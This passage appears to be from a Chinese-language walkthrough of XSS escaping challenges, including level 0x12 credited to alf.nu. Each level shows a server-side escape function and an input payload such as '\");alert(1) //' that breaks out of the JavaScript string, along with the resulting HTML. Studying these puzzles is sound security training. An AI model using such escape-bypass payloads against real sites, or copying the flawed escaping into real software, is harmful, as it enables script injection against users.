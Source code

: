 ```js
    );
  }
  s = escapeJs(s);
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`;
}
```

Input Code

```js
");alert("1
```

HTML

```html
<script>
  var url = 'javascript:console.log("");alert("1")';
  var a = document.createElement("a");
  a.href = url;
  document.body.appendChild(a);
  a.click();
</script>
```

## 0x12

将双引号转义后又使用单引号包裹，因此再加一个转义符，将双引号转义后的转义符进行转义，就实现了双引号的闭合。最后面的就直接注释掉了

Server Code

```js
// from alf.nu
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

Input Code

```js
\");alert(1) //
```

HTML

```html
<script>
  console.log("\\");
  alert(1); //");
</script>
```
